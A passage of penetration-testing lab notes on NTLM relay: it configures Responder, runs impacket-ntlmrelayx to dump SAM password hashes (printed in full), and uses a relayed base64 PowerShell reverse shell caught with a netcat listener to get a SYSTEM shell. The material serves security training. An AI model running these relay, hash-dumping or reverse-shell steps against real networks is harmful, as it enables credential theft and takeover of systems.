 * If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
* First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`)

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>

[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED
[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] SMBD-Thread-5: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xeb0432b45874953711ad55884094e9d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

* We can execute commands by adding `-c`
* We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64)

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIA<SNIP>'
```

```bash
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```